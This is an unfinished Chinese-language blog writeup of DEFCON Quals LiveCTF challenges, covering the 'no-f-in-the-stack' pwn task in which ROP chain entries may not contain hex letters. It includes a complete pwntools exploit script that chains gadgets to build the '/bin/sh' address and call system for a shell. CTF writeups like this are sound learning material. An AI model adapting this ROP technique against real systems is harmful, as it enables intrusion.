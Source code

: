 ```yaml
---
date: 2025-05-14 10:21:56
layout: post
title: \[Unfinished] DEFCON Quals LiveCTF writeup
subtitle: 
description: >-
    之前一直是队友做 gadget 题，导致 Rosayxy 这块非常缺乏练习，在本次比赛中尝到了血的教训
image: >-
  /assets/img/uploads/cat_asleep.jpg
optimized_image: >-
  /assets/img/uploads/cat_asleep.jpg
category: half-finished
tags:
  - pwn
  - gadgets
  - defcon
author: rosayxy
paginate: true
---
```

这次是 Rosayxy 首打 defcon quals！    
嗯 其实感觉至少 liveCTF 这块没有想象中的难，至少题目都还能逆，然后也都有思路，也没有像 SECCON FINAL/今年阿里云CTF 里面一些完全没思路的题    
当然能不能在规定时间做出来就是另一码事了（流泪）   
LiveCTF 是有6场，每场限时4h，安排如下：   
![alt_text](/assets/img/uploads/livectf_schedule.jpg)

对于 LiveCTF 评价如下，图为打完之后的吐槽，确实最后一道 gadget 题感觉放大水了，但是确实思路没想到（问题在我，之前一直感觉 gadget 题很 dirty 而且不太好玩，所以复现的时候偷懒，而且比赛的时候基本都是队友做...这次终于尝到了血的教训，流泪）         


![alt_text](/assets/img/uploads/livectf_sad.png)     

## Chall 6 - no-f-in-the-stack
没错，这就是那个 gadget 题目   
给了一个栈溢出，要求是 ropchain 里面所有项的 hex 表示没有 a - f 的字符，具体限制是用 `scanf("%lu",...)` 读入 ropchain 中的一项，然后用 `sscanf(printed_addr, "%lx", &stack[i])` 的方法，把 dec 当成 hex 解析然后输出到栈上   

它 `system` 和 `/bin/sh` 的地址都给出了，但是当时没往 `system("/bin/sh")` 的方向想，是因为 `/bin/sh` 的地址是 0x4A04F9，感觉绕不过去 orz   

然后就在尝试在栈上写 `sh\x00` 然后把 rdi 指向它，我们从 main 返回时 rdi 指向栈的较低地址，从而需要找 gadget 升栈   
尝试的方法是把 rsi 控制成升栈的大小，然后用 `add edi, esi` 来升栈    
**但是**，`add edi, esi` 指令会清除掉 edi 的高位，所以 rdi 此时也不是栈地址，所以就 gg 了    

### writeup
nu1l 战队的方法如下，参考 [youtube 的讲解](https://www.youtube.com/live/5Pr7JL89ZV4?si=2V1lwVVoF_I1aTyv)    
大概方法是有 `add rax, rdi; ret` 的 gadget，分两次把 rax 加成 `/bin/sh` 的地址，然后用 `mov rdi, rax; call system` 来调用 system 即可      
```py
from pwn import*
pop_rdi_rbp_ret = 402218
pop_rsi_r15_rbp_ret = 402216
call_system = 401917
system_rax = 401914 # mov rdi, rax; call system
ret = 401965
call_read = 416157 # 需要 rdi + 0x74 是2 这样就可以避免syscall 传参数之类的了
mov_rax_rsi = 405186
deref_rax_ret = 482601
add_edi_esi = 493943 # add edi, esi ; add eax, dword ptr [rax] ; ret
add_rax_rdi = 471885

context(log_level = "debug", arch = "amd64", os = "linux")
p = process("./challenge")
for i in range(5):
    p.recvuntil("Addr pls: ")
    p.sendline(str(300000000)) # 不然 i 会被改掉 就不知道写在啥地方去了

binshell = 0x4A04F9
binshell_1 = 250489
binshell_2 = 250070

payload = [pop_rdi_rbp_ret, binshell_1, 1, add_rax_rdi, pop_rdi_rbp_ret, binshell_2, 1, add_rax_rdi, system_rax]

for i in payload:
    p.recvuntil("Addr pls: ")
    p.sendline(str(i))

# gdb.attach(p,"b* 0x0401A54")
# pause()
p.recvuntil("Addr pls: ") # trigger return
p.sendline("0")

p.interactive()
```

## Chall 5 - TODO
最近忙着一些其他事情 ~ 有时间一定好好复现    

